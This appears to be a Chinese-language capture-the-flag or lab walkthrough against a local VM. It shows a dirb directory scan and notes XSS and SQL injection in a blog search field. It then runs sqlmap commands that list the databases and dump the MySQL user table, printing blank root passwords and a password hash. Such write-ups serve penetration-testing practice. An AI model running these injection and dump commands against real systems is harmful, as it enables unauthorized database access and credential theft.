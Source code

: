 开放了80，http服务

## web

目录扫描

```sh
dirb http://192.168.110.151/            

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sat Feb 15 08:07:00 2025
URL_BASE: http://192.168.110.151/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.110.151/ ----
==> DIRECTORY: http://192.168.110.151/blog/
==> DIRECTORY: http://192.168.110.151/images/
+ http://192.168.110.151/index.html (CODE:200|SIZE:468)
+ http://192.168.110.151/server-status (CODE:403|SIZE:303)
```

存在xss，sql漏洞

![image-20250215211901731](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20250215211901731.png)

```
sqlmap -u http://192.168.110.151/blog/index.php?search=1 --level 3 --batch
```

![image-20250215212158933](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20250215212158933.png)

```
[*] blog
[*] information_schema
[*] mysql
[*] oscommerce
[*] performance_schema
```

```sh
sqlmap -u http://192.168.110.151/blog/index.php?search=1 --level 3 -D mysql -T user -C User,Password --dump
```

没其他用户，root的密码是空

```
Database: mysql
Table: user
[4 entries]
+------------------+-------------------------------------------+
| User             | Password                                  |
+------------------+-------------------------------------------+
| root             | <blank>                                   |
| root             | <blank>                                   |
| root             | <blank>                                   |
| debian-sys-maint | *D0C78CEFE547A41E829542C969E697104594B2C0 |
+------------------+-------------------------------------------+
```
